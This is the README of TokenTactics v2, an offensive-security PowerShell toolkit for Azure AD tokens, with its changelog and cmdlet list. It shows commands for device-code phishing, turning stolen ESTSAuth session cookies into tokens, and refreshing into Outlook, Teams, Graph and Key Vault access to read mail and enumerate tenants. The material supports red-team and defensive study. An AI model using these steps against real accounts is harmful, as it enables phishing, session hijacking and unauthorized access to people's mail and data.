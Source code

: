 ```
 _______    _                _______         _   _                 ___  
|__   __|  | |              |__   __|       | | (_)               |__ \ 
   | | ___ | | _____ _ __      | | __ _  ___| |_ _  ___ ___  __   __ ) |
   | |/ _ \| |/ / _ \ '_ \     | |/ _` |/ __| __| |/ __/ __| \ \ / // / 
   | | (_) |   <  __/ | | |    | | (_| | (__| |_| | (__\__ \  \ V // /_ 
   |_|\___/|_|\_\___|_| |_|    |_|\__,_|\___|\__|_|\___|___/   \_/|____|
```

# TokenTactics v2

This is an updated version of [TokenTactics](https://github.com/rvrsh3ll/TokenTactics) originally written by Stephan Borosh [@rvrsh3ll](https://github.com/rvrsh3ll) & Bobby Cooke [@0xBoku](https://github.com/boku7).

## New Features in v2

* Switched to `v2.0` of the Azure AD OAuth2 endpoint
* Support for [continuous access evaluation](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation) using the new `-UseCAE` switch
* Made `ClientId` a parameter
* Changed `client_id` for MSTeams
* Added support for OneDrive and SharePoint
* Added `IssuedAt`, `NotBefore`, `ExpirationDate` and `ValidForHours` in `ConvertFrom-JWTtoken` output in human readable format
* Refactored the codebase to have less redudant code and make it easier to extend

### 0.3.0 (2024-01-04)

* Added new cmdlets `Get-AzureAuthorizationCode` and `Get-AzureTokenFromAuthorizationCode` \
  Those cmdlets are heavily inspired by [TokenSmith](https://github.com/JumpsecLabs/TokenSmith) maintained by [@gladstomych](https://github.com/gladstomych)
* Added new cmdlet `Invoke-RefreshToDeviceRegistrationToken` which is a TokenTactics version of the [AADInternals](https://github.com/Gerenios/AADInternals) cmdlet [`Get-AccessTokenForAADJoin`](https://github.com/Gerenios/AADInternals/blob/b23a7845f6dc5ea8c57b10351421a4d00466cd90/AccessToken.ps1#L877)
* Added v1 endpoint support for `Invoke-RefreshToToken` with the `UseV1Endpoint`. This was required to add `Invoke-RefreshToDeviceRegistrationToken`

### 0.2.1 (2023-07-21)

* Support for Linux as a device platform
* Support for OS/2 as a device platform :grin:

### 0.2.2 (2023-07-22)

* Backported [Yammer token support](https://github.com/rvrsh3ll/TokenTactics/commit/9b364e45e39c70cc3d0a0c5ca85d36e395df8930)
* Backported [switch to allowed PowerShell verbs](https://github.com/rvrsh3ll/TokenTactics/commit/1e46bf26bcc799d4796b621e7f778fd0a24806ff), added alias for backward compatibility

### 0.2.3 (2023-07-23)

* Backported [pull request](https://github.com/rvrsh3ll/TokenTactics/pull/9/) by [rotarydrone](https://github.com/rotarydrone) to convert ESTSAuth to access token

## Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. If you are in possesion of a [FOCI (Family of Client IDs)](https://github.com/secureworks/family-of-client-ids-research) capable refresh token you can use it to get access tokens to all known [FOCI capable endpoints](https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv). Since the refresh-token also contains the information if the user has done multi-factor authentication you can use this. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more.

For instance, if you have a Graph or MSGraph refresh token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, get an Outlook access token and read/send emails or MS Teams and read/send teams messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```powershell
Import-Module .\TokenTactics.psd1
Get-Help Get-AzureToken
Invoke-RefreshToSubstrateToken -Domain "myclient.org"
```

### Get refresh token using Device Code flow

```powershell
Get-AzureToken -Client MSGraph
```

Once the user has logged in, you'll be presented with the JWT and it will be saved in the `$response` variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new tokens!

#### DOD/Mil Device Code

```powershell
Get-AzureToken -Client DODMSGraph
```

### Get a Refresh Token from ESTSAuth* Cookie

```powershell
Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AbcApTk..."
```

This module uses authorization code flow to obtain an access token and refresh token using ESTSAuth (or ESTSAuthPersistent) cookie. Useful if you have phished a session via Evilginx or have otherwise obtained this cookie.

Be sure to use the right cookie! `ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`. You can usually tell which one to use based on length, the longer cookie is the one you want to use :)

*Note: This may not work in all cases as it may require user interaction. If this is the case, either use the Device Code flow above, or try `roadtx interactiveauth --estscookie`*

This feature was backported from the [pull request](https://github.com/rvrsh3ll/TokenTactics/pull/9/) by [rotarydrone](https://github.com/rotarydrone) in the original repo.

### Refresh to new access token

If you do not specify a refresh token the cmdlets will use `$response.refresh_token` as a default.

```powershell
Invoke-RefreshToOutlookToken -domain "myclient.org"

$OutlookToken.access_token
```

### Connect to AzureAD using access token

```powershell
Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org
```

### Connect to MgGraph using access token

```powershell
Invoke-RefreshToMSGraphToken -Domain "myclient.org"
Connect-MgGraph -AccessToken $MSGraphToken.access_token -Scopes "User.Read.All","Group.ReadWrite.All"
```

### Clear tokens

This will remove any token variables.

```powershell
Clear-Token -Token All
```

### Continuous Access Evaluation

With [continuous access evaluation](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/concept-continuous-access-evaluation) Microsoft implements additional security measures, but also extend the maximum lifetime of an access token to 24 hours. Certain CAE capable service like MSGraph, Exchange, Teams and SharePoint can blocke access tokens based on certain events triggered by Azure AD. Currently those critical events are:

* User Account is deleted or disabled
* Password for a user is changed or reset
* Multi-factor authentication is enabled for the user
* Administrator explicitly revokes all refresh tokens for a user
* High user risk detected by Azure AD Identity Protection (not in Teams and SharePoint Online)

```powershell
Invoke-RefreshToMSGraphToken -Domain "myclient.org" -UseCAE
if ( $global:MSGraphTokenValidForHours -gt 23) { "MSGraph token is CAE capable" }
```

### Use with AAD Internals

If you have AADInternals installed as well you can use the created access tokens.

```powershell
Invoke-RefreshToMSTeamsToken -UseCAE -Domain "myclient.org"
Set-AADIntTeamsStatusMessage -Message "My cool status message" -AccessToken $MSTeamsToken.access_token -Verbose
```

### Commands

```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Token                                        0.3.0      TokenTactics
Function        ConvertFrom-JWTtoken                               0.3.0      TokenTactics
Function        Get-AzureAuthorizationCode                         0.3.0      TokenTactics
Function        Get-AzureToken                                     0.3.0      TokenTactics
Function        Get-AzureTokenFromAuthorizationCode                0.3.0      TokenTactics
Function        Get-AzureTokenFromESTSCookie                       0.3.0      TokenTactics
Function        Get-ForgedUserAgent                                0.3.0      TokenTactics
Function        Get-TenantID                                       0.3.0      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken           0.3.0      TokenTactics
Function        Invoke-RefreshToAzureKeyVaultToken                 0.3.0      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.3.0      TokenTactics
Function        Invoke-RefreshToAzureStorageToken                  0.3.0      TokenTactics
Function        Invoke-RefreshToDeviceRegistrationToken            0.3.0      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.3.0      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.3.0      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.3.0      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.3.0      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.3.0      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.3.0      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.3.0      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.3.0      TokenTactics
Function        Invoke-RefreshToOneDriveToken                      0.3.0      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.3.0      TokenTactics
Function        Invoke-RefreshToSharePointToken                    0.3.0      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.3.0      TokenTactics
Function        Invoke-RefreshToToken                              0.3.0      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.3.0      TokenTactics
```

## Authors and contributors
- [@rvrsh3ll](https://github.com/rvrsh3ll)
- [@0xBoku](https://github.com/boku7) co-author and researcher.
- [@f-bader](https://github.com/f-bader) updated CAE capable version
- [@Pri3st](https://github.com/Pri3st) added functions to fetch Storage and Key Vault access tokens

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.
